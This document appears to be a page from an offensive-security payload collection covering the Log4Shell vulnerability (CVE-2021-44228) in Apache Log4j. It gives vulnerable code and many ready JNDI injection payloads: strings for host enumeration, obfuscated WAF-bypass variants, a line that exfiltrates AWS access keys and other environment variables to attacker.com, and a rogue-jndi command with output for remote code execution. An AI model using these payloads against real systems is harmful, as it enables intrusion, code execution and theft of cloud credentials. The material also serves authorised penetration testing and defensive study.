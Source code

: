 # CVE-2021-44228 Log4Shell

> Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled

## Summary

* [Vulnerable code](#vulnerable-code)
* [Payloads](#payloads)
* [Scanning](#scanning)
* [WAF Bypass](#waf-bypass)
* [Exploitation](#exploitation)
    * [Environment variables exfiltration](#environment-variables-exfiltration)
    * [Remote Command Execution](#remote-command-execution)
* [References](#references)

## Vulnerable code

You can reproduce locally with: `docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app` using [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) or [leonjza/log4jpwn](
https://github.com/leonjza/log4jpwn)

```java
public String index(@RequestHeader("X-Api-Version") String apiVersion) {
    logger.info("Received a request for API version " + apiVersion);
    return "Hello, world!";
}
```

## Payloads

```bash
# Identify Java version and hostname
${jndi:ldap://${java:version}.domain/a}
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
${jndi:ldap://${hostName}.domain/a}
${jndi:dns://${hostName}.domain}

# More enumerations keywords and variables
java:os
docker:containerId
web:rootDir
bundle:config:db.password
```

## Scanning

* [log4j-scan](https://github.com/fullhunt/log4j-scan)

    ```powershell
    usage: log4j-scan.py [-h] [-u URL] [-l USEDLIST] [--request-type REQUEST_TYPE] [--headers-file HEADERS_FILE] [--run-all-tests] [--exclude-user-agent-fuzzing]
                        [--wait-time WAIT_TIME] [--waf-bypass] [--dns-callback-provider DNS_CALLBACK_PROVIDER] [--custom-dns-callback-host CUSTOM_DNS_CALLBACK_HOST]
    python3 log4j-scan.py -u http://127.0.0.1:8081 --run-all-test
    python3 log4j-scan.py -u http://127.0.0.1:808 --waf-bypass
    ```

* [Nuclei Template](https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/master/cves/2021/CVE-2021-44228.yaml)

## WAF Bypass

```powershell
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://127.0.0.1:1389/a}

# using lower and upper
${${lower:jndi}:${lower:rmi}://127.0.0.1:1389/poc}
${j${loWer:Nd}i${uPper::}://127.0.0.1:1389/poc}
${jndi:${lower:l}${lower:d}a${lower:p}://loc${upper:a}lhost:1389/rce}

# using env to create the letter
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
```

## Exploitation

### Environment variables exfiltration

```powershell
${jndi:ldap://${env:USER}.${env:USERNAME}.attacker.com:1389/

# AWS Access Key
${jndi:ldap://${env:USER}.${env:USERNAME}.attacker.com:1389/${env:AWS_ACCESS_KEY_ID}/${env:AWS_SECRET_ACCESS_KEY}
```

### Remote Command Execution

* [rogue-jndi - @artsploit](https://github.com/artsploit/rogue-jndi)

    ```ps1
    java -jar target/RogueJndi-1.1.jar --command "touch /tmp/toto" --hostname "192.168.1.21"
    Mapping ldap://192.168.1.10:1389/ to artsploit.controllers.RemoteReference
    Mapping ldap://192.168.1.10:1389/o=reference to artsploit.controllers.RemoteReference
    Mapping ldap://192.168.1.10:1389/o=tomcat to artsploit.controllers.Tomcat
    Mapping ldap://192.168.1.10:1389/o=groovy to artsploit.controllers.Groovy
    Mapping ldap://192.168.1.10:1389/o=websphere1 to artsploit.controllers.WebSphere1
    Mapping ldap://192.168.1.10:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
    Mapping ldap://192.168.1.10:1389/o=websphere2 to artsploit.controllers.WebSphere2
    Mapping ldap://192.168.1.10:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
    ```

* [JNDI-Exploit-Kit - @pimps](https://github.com/pimps/JNDI-Exploit-Kit)

## References

* [Log4Shell: RCE 0-day exploit found in log4j 2, a popular Java logging package - December 12, 2021](https://www.lunasec.io/docs/blog/log4j-zero-day/)
* [Log4Shell Update: Second log4j Vulnerability Published (CVE-2021-44228 + CVE-2021-45046) - December 14, 2021](https://www.lunasec.io/docs/blog/log4j-zero-day-update-on-cve-2021-45046/)
* [PSA: Log4Shell and the current state of JNDI injection - December 10, 2021](https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/)
